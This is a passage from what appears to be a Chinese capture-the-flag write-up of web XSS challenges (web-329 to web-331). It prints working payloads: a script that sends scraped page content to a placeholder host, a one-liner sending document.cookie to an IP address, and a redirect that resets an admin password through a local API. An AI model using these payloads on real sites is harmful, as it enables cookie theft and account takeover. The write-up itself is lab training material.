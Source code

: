 ![image-20250424214854454](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504242148488.png)

来自大佬的补充

```
// 定义sleep函数，转跳，睡眠，接口通信，然而由于机器人不用浏览器未实现，如果是真人则可行
<script>function sleep(numberMillis) {var now = new Date();var exitTime=now.getTime() + numberMillis;while (true) {now = new Date();if (now.getTime() > exitTime)return;}};window.location.href="manager.php";sleep(1000);$('.layui-table-cell.laytable-cell-1-0-1').each(function(index,value){if(value.innerHTML.indexOf('{')>-1){document.location.href='http://xxxxxxxxxxxxxxxxxxxxxxxx/x.php?1='+value.innerHTML;}});</script>

<script>window.open('http://60.204.158.87/'+document.cookie)</script>

```



### web-330

![image-20250428193040147](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504281930240.png)

我们发现多了一个修改密码的功能

我们先抓包看看有啥功能

![image-20250428193143036](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504281931091.png)

我们可以发现修改密码调用了这个请求，于是可以想到直接通过跳转一个get请求来修改管理员密码

```
<script>document.location.href="http://127.0.0.1/api/change.php?p=123456"</script>

```

由于数据库在本地，所以我们可以直接通过修改本地的密码为123456来达到修改admin密码的目的

但我们通过实践发现不能，换成用户名试试

![image-20250428193336081](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504281933114.png)



登录成功，然后又是通过抓包获取flag，但这次是第一个包发送过去就能看到flag

![image-20250428193810007](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504281938041.png)

反而第二个包发过去看不到了



### web-331

和上题一样的情况

同样抓包看看

![image-20250428193858896](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504281938930.png)

